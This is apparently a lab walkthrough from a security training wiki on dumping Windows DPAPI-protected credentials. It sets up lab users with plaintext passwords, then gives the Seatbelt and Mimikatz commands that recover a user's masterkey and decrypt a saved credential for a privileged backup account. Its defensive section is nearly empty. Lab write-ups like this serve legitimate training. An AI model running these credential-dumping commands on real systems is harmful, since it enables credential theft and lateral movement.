 ```yaml
---
description: >-
  DPAPI stands for Data Protection API. Which is used by windows to securely
  save credentials.
---
```


# Dumping DPAPI

## Configuring

1. Login to `DC03` as the `Administrator` user with the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" management tool and open the "Users" directory. Right click the "Users" directory and click "New User"
3. Create a user with the name `sa_backup` and the password `LS6RV5o8T9`. Make sure you deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (67) (1) (1).png>)

![](<../../.gitbook/assets/image (62) (1) (1) (1).png>)

4\. Add the user to the "Account operator" and "Backup Operator" groups via the interface, memberof section or run the following command:

```
Add-ADGroupMember "Account Operators" -Members sa_backup
Add-ADGroupMember "Backup Operators" -Members sa_backup
Add-ADGroupMember "Server Operators" -Members sa_backup
```

5\. Login with the `sa_sql` user and the password `Iloveyou2` on `DATA01`.

6\. Click start and open the "Credential Manager".

![](<../../.gitbook/assets/image (64) (1).png>)

7\. Click on the "Windows Credentials" tab and select "Add a Windows credential".

![](<../../.gitbook/assets/image (12) (1).png>)

8\. Fill in the following information:

* Internet or network address: `secure.local`
* User Name: `sa_backup`
* Password: `LS6RV5o8T9`

![](<../../.gitbook/assets/image (21).png>)

## Attacking

### How it works

When you have comprimised a system and if a user is currently logged in you can retrieve its DPAPI masterkey and decrypt the saved credentials. This is also possible if you have the password of a user. These saved credentials might give you access to other systems or higher privileges within the domain and can be used for lateral movement.

### Tools

* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### Executing the attack

1. One of the things I like to do when gaining access to a system is running Seatbelt. This tool will check many things like permissions, groups and for stored credentials. The tool describes itself as:

> Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

The tool is great for detecting DPAPI secrets.

2\. To run Seatbelt and do some of it checks we can run the following command:

```
.\Seatbelt.exe --group=user
```

3\. In the output of the section WindowsCredentialFiles we can see that the user `sa_sql` has some credentials saved:

![](<../../.gitbook/assets/image (18) (1) (1).png>)

4\. We can find the master encryption key id and some information about the saved credentials with the following Mimikatz command using the previous path and FileName:

```
./mimikatz.exe
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD
```

![](<../../.gitbook/assets/image (12).png>)

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it.

{% hint style="info" %}
The latest compiled version of Mimikatz doesn't work on server 2022. Compiling the latest commit with Visual Studio 2019 gave me some errors, but this [https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64](https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64) repostorie/pull request worked for me without errors! I really hate compiling tools like this, always errors :cry:
{% endhint %}

5\. The next step is to retrieve the masterkey with the password of the user. Luckily we had its password from the previous pages were we captured the NTLMV2 hash after doing a UNC path injection through the SQL Service and cracked it. The password of the `sa_sql` user was `Iloveyou2`. With the following Mimikatz command we can retrieve the masterkey:

```
dpapi::masterkey /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Protect\S-1-5-21-1498997062-1091976085-892328878-1106\e1f462bb-9a65-40f0-a144-4f64bea97ce2 /sid:S-1-5-21-1498997062-1091976085-892328878-1106 /password:Iloveyou2 /protected
```

![](<../../.gitbook/assets/image (11) (1) (1).png>)

6\. We were able to retrieve the Masterkey, it it shown at the end of the output. Now we can read the saved credentials with the masterkey using the following Mimikatz command:

```
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD /masterkey:b3e8630e96acba990f836b4462a9285a4c987776f17f11b2559d9fdf67d03cf6b99dd89445d5641aef6f4477f7354eb6f19e3053e1d56712f45bc227249cdea2
```

![](<../../.gitbook/assets/image (2) (1) (1).png>)

First we get the output of the first mimikatz command we ran, some information about the credentials. The output shows is the saved credential for the `sa_backup` user with the password `LS6RV5o8T9`.

7\. With the help of PowerView we can quickly check if this user has any value:

![](<../../.gitbook/assets/image (4).png>)

In PowerView we can see that `sa_backup` is member of the `Account Operators` en `Backup Operators` groups. These groups are interesting!

## Defending

### Recommendations

* Don't save RDP credentials in Windows.

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords" %}
